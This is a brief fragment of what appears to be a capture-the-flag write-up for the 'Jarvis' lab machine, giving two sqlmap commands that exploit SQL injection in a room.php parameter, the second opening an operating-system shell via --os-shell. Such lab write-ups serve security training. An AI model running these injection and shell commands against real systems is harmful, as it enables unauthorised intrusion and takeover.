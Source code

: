 ![image-20231228224741312](./Jarvis.assets/image-20231228224741312.png)

- **EXP**: sqlmap
  - `$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4`
  - `$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4 --os-shell`

![image-20231228224829279](./Jarvis.assets/image-20231228224829279.png)
